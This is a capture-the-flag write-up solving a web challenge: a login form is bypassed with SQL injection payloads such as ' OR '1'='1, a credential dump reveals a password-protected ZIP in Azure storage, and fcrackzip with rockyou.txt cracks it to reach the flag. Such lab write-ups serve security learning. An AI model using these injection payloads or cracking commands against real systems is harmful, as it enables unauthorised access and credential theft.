





### Game Over: Incident Response

**Description**  
Anomalies detected. Alarms blaring. You weren’t supposed to be here—but now you are. The system's in lockdown, its defenses booting up fast. Can you trace the breach, decode the chaos, and contain the fallout... before the system pulls the plug? One wrong move, and it’s lights out. Incident Response: Ready? PRESS START. http://game-over-dev.s3-website-us-west-2.amazonaws.com/ Hint 1 (Cost: 0 points) Simple for both? Nothing is ever that simple! Hint 2 (Cost: 0 points) We will...we will...what comes next?

---

#### **Solution Steps:**

I started the challenge by visiting the target site in the browser and saw a login page, which I suspected might be vulnerable to SQL injection based on the challenge hints.

I tested the login form by injecting common SQL payloads in the password field, such as:

```bash
' OR '1'='1
' OR 1=1--
' OR 'a'='a
admin' --
```




One of these payloads successfully bypassed the login, returning data from the application. The output revealed several user credentials and a reference to an Azure blob:

```bash
[
  { "id": 1, "username": "gcp", "password": "hello_gcp" },
  { "id": 2, "username": "user1", "password": "password123" },
  { "id": 3, "username": "user2", "password": "letmein" },
  { "id": 4, "username": "azure", "password": "https://gameoverstorage.blob.core.windows.net/gameoverblob/protected_folder.zip" }
]
```

Noticing the URL pointing to a ZIP file in Azure Blob Storage, I downloaded it using ```wget```:

```bash
wget https://gameoverstorage.blob.core.windows.net/gameoverblob/protected_folder.zip
```

I attempted to inspect the ZIP contents without extracting, using:

```bash
unzip -l protected_folder.zip
```


This confirmed that the ZIP was password-protected. I tried the obvious passwords from the SQL dump (test, password123 and the full URL) manually, but none worked.

Since the simple guesses failed, I prepared for an automated dictionary attack using ```fcrackzip``` and the ```rockyou.txt``` wordlist:

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt protected_folder.zip
```


After a short time, the tool successfully cracked the password. With the correct password, I extracted the ZIP and inspected its contents. Among the files, ```file3.txt``` contained the flag, completing the challenge.
